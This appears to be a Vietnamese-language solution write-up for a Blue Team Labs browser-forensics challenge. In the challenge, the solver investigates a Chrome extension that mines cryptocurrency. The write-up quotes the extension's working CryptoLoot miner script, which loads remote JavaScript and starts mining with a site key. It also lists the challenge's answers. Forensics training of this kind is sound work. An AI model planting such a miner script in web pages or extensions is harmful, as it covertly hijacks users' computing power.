





## Description
> Our SOC alerted that there is some traffic related to crypto mining from a PC that was just joined to the network. The incident response team acted immediately, observed that the traffic is originating from browser applications. After collecting all key browser data using FTK Imager, it is your job to use the ad1 file to investigate the crypto mining activity.
## Link challenge
> https://blueteamlabs.online/home/challenge/browser-forensics-cryptominer-aa00f593cb
## Solution
- Để phân tích được tệp ad1, em sử dụng công cụ ftkimage
- ***How many browser-profiles are present in Google Chrome?***
- Các profile chrome được lưu tại 
- 
- 
- Có thể thấy ở đây có 2 profile 
> A : 2

- ***What is the name of the browser theme installed on Google Chrome?***
- ***What is the description text of this extension?***
- Để tìm được thư mục chứa các theme  em tìm kiếm trên internet và tìm được [nguồn này](https://superuser.com/questions/86672/is-there-a-way-to-find-the-name-of-the-current-theme-in-google-chrome)
- 
- Em copy id và tìm trên internet thì tìm được đường dẫn [này](https://www.crx4chrome.com/themes/iiihlpikmpijdopbaegjibndhpgjmjfe/)
- 
> A : Earth in Space

- ***Identify the Extension ID and Extension Name of the cryptominer***
- Tương tự như theme em tìm tại folder extension 
- 
- Em tìm được 1 id extension `egnfmleidkolminhjlkaomjefheafbbb` và có mô tả `Allows staff members to mine cryptocurrency in the background of their web browser` kèm tên `DFP Cryptocurrency Miner` tại file `manifest.json`

> A: egnfmleidkolminhjlkaomjefheafbbb, DFP Cryptocurrency Miner
> A: Allows staff members to mine cryptocurrency in the background of their web browser

- ***What is the name of the specific javascript web miner used in the browser extension?***
- Đây là src của file js

```
<script src="https://crypto-loot.com/lib/miner.min.js"></script>
<script>
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0',
        {
        threads:3,autoThreads:false,throttle:0.2,
        }
);
miner.start();
</script>
<script>
	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
</script>
```
> cryptoloot

- ***How many hashes is the crypto miner calculating per second?***
- Theo như src ở trên thấy rằng `		var hashesPerSecond = miner.getHashesPerSecond(20);` có 20 hàm băm được tính mỗi giây
> A : 20

- ***What is the public key associated with this mining activity?***
> A: b23efb4650150d5bc5b2de6f05267272cada06d985a0

- ***What is the URL of the official Twitter page of the javascript web miner?***
> A : twitter.com/CryptoLootMiner